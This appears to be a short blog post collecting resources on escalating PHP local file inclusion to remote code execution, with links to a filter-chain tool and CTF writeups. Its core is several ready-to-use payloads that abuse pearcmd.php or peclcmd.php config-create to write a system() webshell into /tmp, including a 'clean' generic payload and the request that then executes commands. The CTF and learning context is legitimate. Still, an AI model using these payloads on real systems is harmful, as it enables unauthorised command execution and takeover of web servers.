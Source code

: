 ```yaml
---
layout: mypost
title: Escalating LFI to RCE with php - Resources 
categories: [web]
---
```


## Resources

[https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

[https://github.com/TCP1P/TCP1P_CTF_writeup/blob/main/2023/angstromctf-2023/README.md#exploitation](https://github.com/TCP1P/TCP1P_CTF_writeup/blob/main/2023/angstromctf-2023/README.md#exploitation) (a writeup for filestore, a CTF challenge about exploiting LFI for RCE)

`/?+config-create+/&f=.././.././.././.././../usr/local/lib/./php/peclcmd.php&/<?=system($_GET['cmd']);?>+/tmp/lol.php` (an alternative payload for filestore using `peclcmd`)

[https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/) (a collection of lfi techniques)

[https://blog.csdn.net/rfrder/article/details/121042290](https://blog.csdn.net/rfrder/article/details/121042290) (an in depth explanation of exploiting pearcmd.php)

`/?+config-create+/&page=/usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/tmp/test1235.php`(a working payload for blackbox, another CTF challenge)

## Clean pearcmd/peclcmd Payload:

```
/?page=/usr/local/lib/php/pearcmd&+config-create+/<?=SYSTEM($_GET['cmd']);?>+/tmp/webshell.php
``` 

Note that the `/` behind the webshell `<?=SYSTEM($_GET['cmd']);?>` is necessary because config-create is utting the value as a root directory for some config options. `/tmp/webshell.php` is the config file we're writing to.

After we create the shell, we use `/?page=/tmp/webshell&cmd=ls` for command execution.
